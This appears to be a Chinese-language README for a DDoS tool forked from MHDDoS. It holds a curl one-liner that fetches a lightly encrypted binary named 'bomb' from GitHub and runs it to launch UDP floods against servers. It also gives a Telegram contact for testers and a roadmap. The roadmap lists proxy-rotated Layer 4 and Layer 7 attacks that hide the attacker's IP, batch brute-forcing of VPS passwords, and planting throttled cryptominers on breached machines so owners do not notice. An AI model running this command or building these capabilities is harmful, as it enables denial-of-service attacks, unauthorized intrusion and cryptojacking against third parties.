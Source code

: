 测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能是x86的服务器运行

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中
(一天加一个内容吧,主要是我没多少🈳)

测试用户请联系我: [@seagullz44](https://t.me/seagullz44)

原项目地址是这个哈,有兴趣的可以去看看: [MHDDoS](https://github.com/MatrixTM/MHDDoS)

# 预计内容
1.原有的Layer7 (Website)攻击+Layer4 (Server/Home)基础上优化,以及在线的socks5和socks4和Proxies HTTP的在线获取,更好的通过多种ip打击网站,并隐藏好自己的ip
2.暴力破解vps密码,可以默认自定义操作,定时,批量
3.对所破解的vps进行植入挖矿程序,可以自定义挖矿的CPU占比,防止用户察觉
4.将继续收集其他ddos项目进行优化简介合并

本脚本采用的是简单加密,这种加密程度不是很高,但可以防止一些小白同志进行二改贩卖,请勿用于违法犯罪,请下载本脚本1小时候删除,使用本脚本自动同意使用者承担一切风险的原则,与作者无关